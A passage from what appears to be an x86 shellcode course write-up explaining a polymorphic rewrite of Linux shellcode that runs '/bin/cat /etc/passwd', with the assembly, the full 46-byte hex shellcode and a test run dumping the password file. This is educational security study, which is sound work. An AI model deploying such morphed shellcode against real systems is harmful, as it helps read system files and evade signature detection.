 ```nasm
    pop ecx                     ; change #3
    mov al, 0xb 
    push edx 
    push ecx 
    push ebx 
    mov ecx, esp 
    int 0x80

jump_a:
    call call_a
    db '/etc/passwd'
```

For the first change, in the original assembly code, an `XOR` instruction and a `CDQ` instruction were used at the beginning of the program to clear the necessary registers. In the modified shellcode, a `MUL EAX` instruction was used in place of `CDQ`. In this case, the `MUL EAX` instruction results in the `EAX` and the `EDX` registers being cleared. The `MUL` instruction was discussed in more detail in a previous post.

For the second change, the original shellcode used three `PUSH` instructions to store a string on the stack. Converting the pushed bytes to ASCII reveals that the string is `/etc//passwd`, as shown below.

```shell
>>> print('\x64\x77\x73\x73\x61\x70\x2f\x2f\x63\x74\x65\x2f')
dwssap//cte/
```

 In the modified shellcode, a 'JUMP-CALL-POP' technique is used to accomplish this task. In the modified program, the `JMP SHORT jump_a` instruction redirects execution to the `jump_a` label. At the `jump_a` label, a `CALL` instruction is used to store the memory address immediately following the `CALL` to the stack and to redirect execution to the `call_a` label. In this case, the memory address immediately following the `CALL` instruction contains the string `/etc/passwd` as defined by the `DB` instruction. 

For the third change, as execution flow continues at the `call_a` label, a `POP ECX` instruction is used in place of a `MOV ECX, ESP` instruction in the original assembly code. The functionality provided by these two different instructions accomplish the same task.

The shellcode resulting from the modified version of `/bin/cat /etc/passwd` is 46 bytes (3 bytes longer than the original shellcode) and is shown below.

```shell
\x31\xc0\xf7\xe0\x52\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x52\xeb\x0a\x59\xb0\x0b\x52\x51\x53\x89\xe1\xcd\x80\xe8\xf1\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64
```

#### Shellcode I: Morphed Demonstration
The modified shellcode can be tested in the same manner as the original shellcode. Once again, the `sc_test.c` program was used to test the shellcode. Upon compiling `sc_test.c` with the modified shellcode and executing `sc_test`, the contents of `/etc/passwd` is printed to the terminal as expected. A sample of the output is shown below.

```shell
root@kali:~/workspace/SLAE/assignments/0x06# ./sc_test                                                                           
Shellcode Length: 46                                                                                                             
root:x:0:0:root:/root:/bin/bash                                                                                                  
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin                                                                                  
bin:x:2:2:bin:/bin:/usr/sbin/nologin                                                                                             
sys:x:3:3:sys:/dev:/usr/sbin/nologin                                                                                             
sync:x:4:65534:sync:/bin:/bin/sync                                                                                               
```